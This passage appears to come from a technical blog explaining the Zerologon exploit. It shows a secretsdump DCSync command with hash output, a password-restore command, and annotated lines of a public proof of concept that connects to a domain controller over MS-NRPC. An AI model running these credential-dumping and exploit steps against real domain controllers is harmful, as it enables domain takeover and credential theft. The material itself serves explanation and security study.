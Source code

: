 DCSync to recover the secrets contained in `NTDS.dit` with [secretsdump tool from the Impacket suite](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py):

```py
❯ secretsdump.py 'Domain'/'DC_account$'@DC_IP_address -no-pass

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1e0e867ab8043bbba9ef4639dbdf562e:::
<...snip...>
```

> However, this process presents [several risks](https://twitter.com/_dirkjan/status/1306280553281449985) :
{: .prompt-danger }

1. Servers will no longer be able to connect to the domain via NTLM, as they have no knowledge of the secret changed by the attacker.
2. Kerberos tickets issued by TGS before the exploit will still work, but new ones will be encrypted with the secret changed by the attacker. Servers will not be able to check ST (Service Tickets) requested from the KDC.
3. The same problem applies to Kerberos authentication on the DC, since the change is made only in `NTDS.dit` and not in the `SAM` database, the `HKLM\SECURITY\Policy\Secrets\$machine.ACC` registry key or the `LSASS` process.

It is therefore imperative to restore the previously changed password:

```py
❯ python3 restorepassword.py 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'

[*] StringBinding ncacn_ip_tcp:IP[49674]
Change password OK
```

### Review of dirkjanm's PoC

- **Lines 3-5**: Import of various classes from the `impacket.dcerpc.v5` module:

* `nrpc`: interact with the MS-NRPC protocol.
* `epm`: interact with the Endpoint Mapper (EPM), to map RPC communication endpoints.
* `NULL`: a constant representing a null value.
* `transport`: establish and manage transport connections using the DCE/RPC protocol.

```py
from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
```

- **Lines 69-73**: Establishes a connection to an RPC endpoint in order to communicate via the MS-NRPC protocol:

```py
rpc_con = None
binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
rpc_con.connect()
rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
```
